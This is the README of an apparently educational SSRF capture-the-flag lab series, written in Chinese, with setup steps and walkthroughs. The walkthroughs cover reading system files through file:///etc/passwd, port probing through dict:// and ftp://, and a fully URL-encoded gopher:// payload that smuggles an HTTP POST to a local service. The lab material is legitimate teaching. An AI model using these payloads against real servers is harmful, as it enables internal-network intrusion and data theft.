



# hello-ssrf
【Hello-CTF labs】靶场系列 - [ssrf-labs](https://github.com/ProbiusOfficial/ssrf-labs)  的前置靶场，介绍基本的协议，攻击场景以及常见绕过方式。

**已更新内容：**

| 推荐序号      | 关卡名                         | 内容                                                         |
| ------------- | :----------------------------- | :----------------------------------------------------------- |
| Level 1       | hello-world                    | 无过滤SSRF，主要了解file协议                                 |
| Level 2       | openwhat                       | SSRF中的端口探测                                             |
| Level 3       | 【实验环境】*gopher_mirror | gopher协议特性                                               |
| **Level 4***  | gopher_master                  | gopher协议完成HTTP相关请求                                   |
| Level 5       | 【实验环境】ohmysql            | TCP流量视角下的mysql未授权攻击                               |
| Level 6       | getmysql                       | 基于mysql未授权的mysql提权                                   |
| Level 7       | ohmyRedis                      | 使用dict协议攻击Redis 未授权                                 |
| Level 8       | evalFastcgi                    | [【**phithon**- Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写】](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html) |
| **Level b1*** | hostbypass                     | 简单绕过host限制                                             |
| Level b2      | whynotdomain                   | 域名绕过限制                                                 |

**注：**

**【实验环境】***：该标签环境无flag，或不以flag为目标，实验环境主要帮助探索和理解对应攻击手法的过程或者原理。

**Level 4***：对于ssrf涉及到的多个攻击场景，本质上均为http请求，这里不再细分场景，如：基于HTTP请求的 代码注入，SQL注入，命令执行，XML注入，[Tomcat PUT 方法任意写文件漏洞（CVE-2017-12615）](https://github.com/vulhub/vulhub/blob/master/tomcat/CVE-2017-12615/README.zh-cn.md)。

当你完成该关卡后，可尝试 [ssrf-labs](https://github.com/ProbiusOfficial/ssrf-labs)  中的对应关卡。

**Level b1***：带有**b**标号说明该关卡主要围绕bypass - 即**ssrf中的常见绕过方式**，主要与攻击场景做区分。


**计划中的内容：**

| 推荐序号 | 关卡名 | 内容 |
| -------- | :----- | :--- |
|          |        |      |
| Level 9  | ftp？  |      |
|          |        |      |
|          |        |      |

【饼】其他计划内容：

基于SRC中SSRF场景的一些复刻 - 感谢【小火炬\<Wechat:xiaohuoju123456>】师傅提供的相关案例。

## Usage

```bash
git clone https://github.com/ProbiusOfficial/hello-ssrf.git
cd hello-ssrf
docker-compose build
```
然后启动你想打的关卡（比如hostbypass）
```bash
docker run --rm -d -p 80:80/tcp hellossrf:hostbypass
```

## 一些踩坑

市面上很多ssrf相关漏洞都有了一些年限，在复现过程中难免会遇到因为各种各样的更新迭代导致原环境崩坏或者在新环境中有些漏洞无法复现的问题，这里是笔者在构建此靶场和另一个靶场ssrf-lab遇到的一些坑，仅供参考：

### 关于 【实验环境】ohmysql

对于原生镜像 mysql:5.6 ，由于其底层为 Debian 9 Stretch，而该版本已经不受支持

> 每个 Debian 稳定版本都有两年的官方支持期限，然后进入由 Debian LTS Team 支持的至少三年的[长期支持（LTS）](https://www.debian.org/lts/)期。在这五年中，用户依旧可以使用官方 debian 源、debian-security 源及它们的镜像。
>
> 在 LTS 结束后，对应发行版的软件源会被从 Debian 主源中删除，移动到 [archive.debian.org](https://archive.debian.org/)，不再获得任何更新，对应的 APT 签名公钥也会过期。Freexian 公司为 Debian 提供付费的[扩展 LTS 支持](https://www.freexian.com/lts/extended/)服务，主要提供安全更新，也有少量功能更新，通常支持期限可至对应版本发布后十年。这些 ELTS 软件源是可以免费使用的。

所有的相关包都被收录在Debian的archive中，导致如需在该镜像中安装部分实验环境会报错源失效：

```
root@hello-ctf:/# apt update
Ign:1 http://security.debian.org/debian-security  stretch/updates InRelease
Ign:2 http://deb.debian.org/debian  stretch InRelease
Get:3 http://repo.mysql.com/apt/debian  stretch InRelease [21.6 kB]
Err:4 http://security.debian.org/debian-security  stretch/updates Release        
  404  Not Found [IP: 151.101.2.132 80]
  ......
```

需手动修改为 http://archive.debian.org/debian 而国内部分源对此没有加速，导致部分全局加速配置无效。

笔者基于 https://help.mirrors.cernet.edu.cn/debian-elts/ 做了重新配置。

### 关于 Crul 版本

当你在稍新一点的容器中（如果他预装了curl）复现类似攻击Mysql未授权的本地curl exp时，你可能遇到以下报错：

```bash
root@hello-ctf:/# curl -v 'gopher:...%00%00%...'
...//省略部分内容
curl: (3) URL using bad/illegal format or missing URL
<该报错源于笔者环境，使用curl --version输出如下>
<curl 7.88.1 (x86_64-pc-linux-gnu) libcurl/7.88.1 OpenSSL/3.0.15 zlib/1.2.13 brotli/1.0.9 zstd/1.5.4 libidn2/2.3.3 libpsl/0.21.2 (+libidn2/2.3.3) libssh2/1.10.0 nghttp2/1.52.0 librtmp/2.3 OpenLDAP/2.5.13
Release-Date: 2023-02-20, security patched: 7.88.1-10+deb12u8
Protocols: dict file ftp ftps gopher gophers http https imap imaps ldap ldaps mqtt pop3 pop3s rtmp rtsp scp sftp smb smbs smtp smtps telnet tftp
Features: alt-svc AsynchDNS brotli GSS-API HSTS HTTP2 HTTPS-proxy IDN IPv6 Kerberos Largefile libz NTLM NTLM_WB PSL SPNEGO SSL threadsafe TLS-SRP UnixSockets zstd>
```

这是由于从 7.81.0版本(2021-10-13) 后引入了更严格的 URL 解析规则，禁止在 URL 路径中包含控制字符（如 `%00`）。

此版本明确将空字符视为非法字符。

如需使用宽松版本，推荐使用 【实验环境】ohmysql 中的curl命令，该命令版本信息如下”

```
curl 7.52.1 (x86_64-pc-linux-gnu) libcurl/7.52.1 OpenSSL/1.0.2u zlib/1.2.8 libidn2/0.16 libpsl/0.17.0 (+libidn2/0.16) libssh2/1.7.0 nghttp2/1.18.1 librtmp/2.3
Protocols: dict file ftp ftps gopher http https imap imaps ldap ldaps pop3 pop3s rtmp rtsp scp sftp smb smbs smtp smtps telnet tftp 
```

### 关于 PHP 版本

在搭建单环境 - evalFastcgi 时，根据P牛的文章 [【2017-04-25 **phithon**- Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写】](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html) 和 vulhub的环境，得知这和fpm的版本并无关系，本质上是开放9000端口后的一种针对性利用，本来是沿用W4rnIn9师傅的文章 [【2020-09-09 W4rnIn9-SSRF系列之攻击FastCGI】](https://joner11234.github.io/article/9897b513.html) 去构建的docker，但是发现没有太大必要使用Ubuntu的底层镜像，所以第一个版本直接使用 php:fpm 并且在里面 php -s 一个ssrf页面，此时php默认版本为PHP8.4，当输入对应Payload时，和之前高版本的curl一样回显了 **"URL using bad/illegal format or missing URL"** ，推测是高版本PHP中的cURL扩展导致。

经过测试为在**PHP 7.3及以后**中的cURL也同样引入了更严格的 URL 解析规则，在中间版本cURL扩展会产生空回显，在**PHP8.2**之后的版本，cURL会回显"**URL using bad/illegal format or missing URL**"。

也就是说在高版本的PHP中，部分SSRF的攻击方式会因此失效？-当然如果这里有其他服务暴露可以执行宽松URL解析，依旧能完成对fpm-Fastcgi协议的攻击。

> *注，测试仅通过拉取不同php-x.x.x-fpm版本释放payload实现，并未对php源码进行本地调试，测试结果可能不严谨，仅供参考。

## 一些推荐

### 工具

[【Esonhugh/Gopherus3】：https://github.com/Esonhugh/Gopherus3](https://github.com/Esonhugh/Gopherus3) -SSRF基于Gopher的利用工具，通过自动化地生成Gopher协议Payload，该版本为原版的Python3版本，由[Esonhugh](https://github.com/Esonhugh)师傅发布。

### 文章

[【2016-05-31_长亭科技 - 利用 Gopher 协议拓展攻击面】](https://blog.chaitin.cn/gopher-attack-surfaces/)

[【2023-12-12 Web安全学习笔记 - 4. 常见漏洞攻防 » 4.4. SSRF】](https://websec.readthedocs.io/zh/latest/vuln/ssrf.html)

[【2021-01-26 SSRF安全指北】](https://security.tencent.com/index.php/blog/msg/179)

[【2021-01-14 Freebuf - CTF SSRF 漏洞从0到1】](https://www.freebuf.com/articles/web/260806.html) 

### Github靶场

[【ssrf-labs】：https://github.com/ProbiusOfficial/ssrf-labs](https://github.com/ProbiusOfficial/ssrf-labs)：ssrf综合靶场

>基于国光师傅 [ssrf-vuls](https://github.com/sqlsec/ssrf-vuls) 修改
>
>- 为所有靶场都做了单独容器，方便调试。
>
>- 添加以源码方式部署的 docker-compose.yml 。
>- 基于 [【**phithon**- Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写】](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html) 添加了FastCGI场景

[【ByteCTF2021-Final-SEO】：https://github.com/sqlsec/ByteCTF2021-Final-SEO](https://github.com/sqlsec/ByteCTF2021-Final-SEO)：SSRF下Mysql未授权+UDF提权

> - 前端功能场景尽量模拟了真实的 SSRF 漏洞情况
> - 通过 JS 去请求 API 接口，比较符合目前主流的开发场景
> - 多个没有 SSRF 漏洞的干扰接口，需要选手耐心去过一些这些接口
> - 配合文件下载漏洞可以快速定位内网服务器的当前网段
> - 考察选手 SSRF 在内网中的实际信息收集，需要选手自己去找到内网的 MySQL 资产
> - 考察选手 MySQL 的攻击思路，这里只要考擦使用 SSRF 进行内网 MySQL 的 UDF 提权

### SSRF 其他学习资源：

**CTFShow-SSRF系列题目 web351-web360** - 推荐WriteUp：https://tari.moe/2021/ctfshow-ssrf.html

> web351 - 无过滤
>
> web352 - 协议必须是 http/https ，过滤了 localhost 和 127.0.0
>
> web353 - 协议必须是 http/https ，过滤了localhost、127.0. 考察绕过方法
>
> web354 - 域名绕过
>
> web355 - 域名长度限制-5
>
> web356 - 域名长度限制-3
>
> web357 - IP过滤
>
> web358 -  白名单正则
>
> web359 - Mysql未授权
>
> web360 - Redis未授权

**CTFhub-SSRF技能树**

## Writeup

### hello-world

同题目所说，该关卡没有任何过滤，主要用于熟悉ssrf中用到的各种协议。

这里我们先讲 `file://` 也就是file协议，其用法为 `file://+file_path` 该协议会输出对应文件的内容。

在ssrf攻击所在的内网中，其主要用于一部分信息的收集：

```bash
file:///etc/passwd        # 读取文件passwd
file:///etc/hosts         # 显示当前操作系统网卡的IP
file:///proc/net/arp      # 显示arp缓存表（寻找内网其他主机）
file:///proc/net/fib_trie # 显示当前网段路由信息
```

作为一个CTF题目，该关卡要求你通过file协议(file://)来读取位于根目录的flag文件(/flag)。

所以只需要在扫描框中输入 `file:///flag` 即可。

在 ssrf 中，除了file协议，我们还会讲到下面几个：

**dict / ftp 协议**

`ftp` 在SSRF中也常用于端口扫描，在遇到打开的端口时，响应速度会明显变慢。

```Bash
ftp://ip:prot
.Eg ftp://127.0.0.1:5001
```

`dict`协议用于访问字典服务资源，可用于内网端口探测，响应速度较快。

```Bash
dict://ip:prot
.Eg dict://127.0.0.1:5001
```

此外 dict 在 ssrf 中还可以用来攻击redis服务，这些我们会在后面遇到。

**gopher 协议**

gopher协议支持发出GET、POST请求，是ssrf利用中最强大的协议。

```Bash
gopher://<host>:<port>/<gopher-path>_<发送的TCP数据>
```

**http 协议** - 超文本传输协议，因特网最常见的协议，可以直接用于发起get请求。

**sftp / tftp 协议** - 更安全的文件传输协议 / 简单文件传输协议。

**ldap 协议** - 轻量级目录访问协议用于访问和操作目录服务。

### openwhat

前面说到 `dict`可用于内网端口探测，但不是所有的端口都可以被探测，一般只能探测出一些带 TCP 回显的端口（或者一些有响应时间的端口），一般使用 BurpSuite 的迭代器模式爆破，设置好要爆破的 IP 和 端口 即可批量探测出端口。

为了减小容器体积，该关卡并没有采用真实服务，而是使用Python模拟的方式，监听了10000内的5个端口：

`81` `8082` `23`  `3309` `6380` `9001`

并且每个模拟开放端口有2s的响应等待时间，Flag为每个开放端口的回显消息，这里设置1-10000的迭代器爆破筛选回显消息即可。


### Gopher's mirror

**该关卡无Flag**

```
gopher 协议是一个古老且强大的协议，可以传递最底层的 TCP 数据流
本关卡无任何过滤，Python将监听81端口，你对该端口发送的所有TCP信息都会被镜像返回。
.eg:尝试通过gopher协议(gopher://)来向81端口发送消,gopher://host:port/gopher-path_TCP数据流,gopher://127.0.0.1:81/_hello_world!
```

演示关卡，你可以尝试不加_,直接这样去发送 gopher://127.0.0.1:81/TCP数据

然后你就会发现返回的数据丢了第一个字符，这就是为什么我们使用_占位。

### Gopher Master

```
记得么，HTTP 协议也是属于 TCP 数据层的，所以Gopher可以完成POST操作
你需要对原始POST请求完成下面加工：
1，移除Accept-Encoding: gzip, deflate
2，URL编码原始POST请求的所有字符
本关卡无任何过滤，Python将监听81 8181端口，你需要分别用get和post发送key=helloctf的参数来获取flag

.eg:gopher://127.0.0.1:8181/_数据流 | 如果使用浏览器发送一次编码即可，如果是burp，请使用两次。
```

如题目所示，题目主要考察如何使用 Gopher 来完成HTTP的请求操作。

以POST为例：

首先使用burpsuite去抓取一个 key=helloctf 的 http-post 原始请求包：

```
POST /ssrf.php HTTP/1.1
Host: localhost:8181
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

key=helloctf
```

移除压缩部分 - `Accept-Encoding: gzip, deflate, br` 后进行全字符URL编码：

<理论上要全字符URL编码，但是CyberChef的编码全部特殊字符也可以>

CyberChef



```
POST%20%2Fssrf%2Ephp%20HTTP%2F1%2E1%0D%0AHost%3A%20localhost%3A8181%0D%0Asec%2Dch%2Dua%3A%20%22Chromium%22%3Bv%3D%22121%22%2C%20%22Not%20A%28Brand%22%3Bv%3D%2299%22%0D%0Asec%2Dch%2Dua%2Dmobile%3A%20%3F0%0D%0Asec%2Dch%2Dua%2Dplatform%3A%20%22Windows%22%0D%0AUpgrade%2DInsecure%2DRequests%3A%201%0D%0AUser%2DAgent%3A%20Mozilla%2F5%2E0%20%28Windows%20NT%2010%2E0%3B%20Win64%3B%20x64%29%20AppleWebKit%2F537%2E36%20%28KHTML%2C%20like%20Gecko%29%20Chrome%2F121%2E0%2E6167%2E85%20Safari%2F537%2E36%0D%0AAccept%3A%20text%2Fhtml%2Capplication%2Fxhtml%2Bxml%2Capplication%2Fxml%3Bq%3D0%2E9%2Cimage%2Favif%2Cimage%2Fwebp%2Cimage%2Fapng%2C%2A%2F%2A%3Bq%3D0%2E8%2Capplication%2Fsigned%2Dexchange%3Bv%3Db3%3Bq%3D0%2E7%0D%0ASec%2DFetch%2DSite%3A%20none%0D%0ASec%2DFetch%2DMode%3A%20navigate%0D%0ASec%2DFetch%2DUser%3A%20%3F1%0D%0ASec%2DFetch%2DDest%3A%20document%0D%0AAccept%2DEncoding%3A%20gzip%2C%20deflate%2C%20br%0D%0AAccept%2DLanguage%3A%20zh%2DCN%2Czh%3Bq%3D0%2E9%0D%0AConnection%3A%20close%0D%0A%0D%0Akey%3Dhelloctf
```

Burpsuite：

```
%50%4f%53%54%20%2f%73%73%72%66%2e%70%68%70%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%6c%6f%63%61%6c%68%6f%73%74%3a%38%31%38%31%0d%0a%73%65%63%2d%63%68%2d%75%61%3a%20%22%43%68%72%6f%6d%69%75%6d%22%3b%76%3d%22%31%32%31%22%2c%20%22%4e%6f%74%20%41%28%42%72%61%6e%64%22%3b%76%3d%22%39%39%22%0d%0a%73%65%63%2d%63%68%2d%75%61%2d%6d%6f%62%69%6c%65%3a%20%3f%30%0d%0a%73%65%63%2d%63%68%2d%75%61%2d%70%6c%61%74%66%6f%72%6d%3a%20%22%57%69%6e%64%6f%77%73%22%0d%0a%55%70%67%72%61%64%65%2d%49%6e%73%65%63%75%72%65%2d%52%65%71%75%65%73%74%73%3a%20%31%0d%0a%55%73%65%72%2d%41%67%65%6e%74%3a%20%4d%6f%7a%69%6c%6c%61%2f%35%2e%30%20%28%57%69%6e%64%6f%77%73%20%4e%54%20%31%30%2e%30%3b%20%57%69%6e%36%34%3b%20%78%36%34%29%20%41%70%70%6c%65%57%65%62%4b%69%74%2f%35%33%37%2e%33%36%20%28%4b%48%54%4d%4c%2c%20%6c%69%6b%65%20%47%65%63%6b%6f%29%20%43%68%72%6f%6d%65%2f%31%32%31%2e%30%2e%36%31%36%37%2e%38%35%20%53%61%66%61%72%69%2f%35%33%37%2e%33%36%0d%0a%41%63%63%65%70%74%3a%20%74%65%78%74%2f%68%74%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%68%74%6d%6c%2b%78%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%6d%6c%3b%71%3d%30%2e%39%2c%69%6d%61%67%65%2f%61%76%69%66%2c%69%6d%61%67%65%2f%77%65%62%70%2c%69%6d%61%67%65%2f%61%70%6e%67%2c%2a%2f%2a%3b%71%3d%30%2e%38%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%73%69%67%6e%65%64%2d%65%78%63%68%61%6e%67%65%3b%76%3d%62%33%3b%71%3d%30%2e%37%0d%0a%53%65%63%2d%46%65%74%63%68%2d%53%69%74%65%3a%20%6e%6f%6e%65%0d%0a%53%65%63%2d%46%65%74%63%68%2d%4d%6f%64%65%3a%20%6e%61%76%69%67%61%74%65%0d%0a%53%65%63%2d%46%65%74%63%68%2d%55%73%65%72%3a%20%3f%31%0d%0a%53%65%63%2d%46%65%74%63%68%2d%44%65%73%74%3a%20%64%6f%63%75%6d%65%6e%74%0d%0a%41%63%63%65%70%74%2d%45%6e%63%6f%64%69%6e%67%3a%20%67%7a%69%70%2c%20%64%65%66%6c%61%74%65%2c%20%62%72%0d%0a%41%63%63%65%70%74%2d%4c%61%6e%67%75%61%67%65%3a%20%7a%68%2d%43%4e%2c%7a%68%3b%71%3d%30%2e%39%0d%0a%43%6f%6e%6e%65%63%74%69%6f%6e%3a%20%63%6c%6f%73%65%0d%0a%0d%0a%6b%65%79%3d%68%65%6c%6c%6f%63%74%66
```

然后将对应编码后的字符放在 gopher:// 协议下数据流部分,如果只进行一次url编码可以使用题目的扫描框:

```
gopher://127.0.0.1:8181/_%50%4f%53%54%20%2f%73%73%72%66%2e%70%68%70%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%6c%6f%63%61%6c%68%6f%73%74%3a%38%31%38%31%0d%0a%73%65%63%2d%63%68%2d%75%61%3a%20%22%43%68%72%6f%6d%69%75%6d%22%3b%76%3d%22%31%32%31%22%2c%20%22%4e%6f%74%20%41%28%42%72%61%6e%64%22%3b%76%3d%22%39%39%22%0d%0a%73%65%63%2d%63%68%2d%75%61%2d%6d%6f%62%69%6c%65%3a%20%3f%30%0d%0a%73%65%63%2d%63%68%2d%75%61%2d%70%6c%61%74%66%6f%72%6d%3a%20%22%57%69%6e%64%6f%77%73%22%0d%0a%55%70%67%72%61%64%65%2d%49%6e%73%65%63%75%72%65%2d%52%65%71%75%65%73%74%73%3a%20%31%0d%0a%55%73%65%72%2d%41%67%65%6e%74%3a%20%4d%6f%7a%69%6c%6c%61%2f%35%2e%30%20%28%57%69%6e%64%6f%77%73%20%4e%54%20%31%30%2e%30%3b%20%57%69%6e%36%34%3b%20%78%36%34%29%20%41%70%70%6c%65%57%65%62%4b%69%74%2f%35%33%37%2e%33%36%20%28%4b%48%54%4d%4c%2c%20%6c%69%6b%65%20%47%65%63%6b%6f%29%20%43%68%72%6f%6d%65%2f%31%32%31%2e%30%2e%36%31%36%37%2e%38%35%20%53%61%66%61%72%69%2f%35%33%37%2e%33%36%0d%0a%41%63%63%65%70%74%3a%20%74%65%78%74%2f%68%74%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%68%74%6d%6c%2b%78%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%6d%6c%3b%71%3d%30%2e%39%2c%69%6d%61%67%65%2f%61%76%69%66%2c%69%6d%61%67%65%2f%77%65%62%70%2c%69%6d%61%67%65%2f%61%70%6e%67%2c%2a%2f%2a%3b%71%3d%30%2e%38%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%73%69%67%6e%65%64%2d%65%78%63%68%61%6e%67%65%3b%76%3d%62%33%3b%71%3d%30%2e%37%0d%0a%53%65%63%2d%46%65%74%63%68%2d%53%69%74%65%3a%20%6e%6f%6e%65%0d%0a%53%65%63%2d%46%65%74%63%68%2d%4d%6f%64%65%3a%20%6e%61%76%69%67%61%74%65%0d%0a%53%65%63%2d%46%65%74%63%68%2d%55%73%65%72%3a%20%3f%31%0d%0a%53%65%63%2d%46%65%74%63%68%2d%44%65%73%74%3a%20%64%6f%63%75%6d%65%6e%74%0d%0a%41%63%63%65%70%74%2d%45%6e%63%6f%64%69%6e%67%3a%20%67%7a%69%70%2c%20%64%65%66%6c%61%74%65%2c%20%62%72%0d%0a%41%63%63%65%70%74%2d%4c%61%6e%67%75%61%67%65%3a%20%7a%68%2d%43%4e%2c%7a%68%3b%71%3d%30%2e%39%0d%0a%43%6f%6e%6e%65%63%74%69%6f%6e%3a%20%63%6c%6f%73%65%0d%0a%0d%0a%6b%65%79%3d%68%65%6c%6c%6f%63%74%66
```



如果使用 burpsuite 就需要两次URL编码：



当然 GET 请求也可以使用对应的方法，过程同理，这里就不赘述了，只展示过程。

**编造包 -> 删压缩 -> URL编码 -> 拼接**

```
GET /?key=helloctf HTTP/1.1
Host: 127.0.0.1:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36 Edg/133.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```

### ohmysql

> ssrf打mysql看起来是18年的一个trick，估计是得益于后面安全性的升级，这个trick到现在也只停留在18年和ssrf靶场中（
>
> 即使在25年的今天去检索ssrf和sql，你依旧只能找到18年左右的文章，如果有现在的 —— 那多半是抄的18年那会的
>
> 不过还是翻出来一些有意思的底层，比如mysql协议分析.
>
> 一些推荐的文章：
>
> [【2018-01-10  Freebuf - 从一道CTF题目看Gopher攻击MySql】](https://www.freebuf.com/articles/web/159342.html) - mysql协议分析部分应该是文章的精髓了
>
> [【2018-01-23 Seebug - SSRF To RCE in MySQL】](https://paper.seebug.org/510/) - 在检索资料的时候，发现一堆人都从这抄的（（

设计中 —— 由于时效性，该关卡最主要应该展示偏向过程一点的，如协议的展示分析，MySQL协议的TCP相关结构和传输过程。

该关卡目前已经没太大实战价值，但希望各位能从中收获一些做题之外的东西。

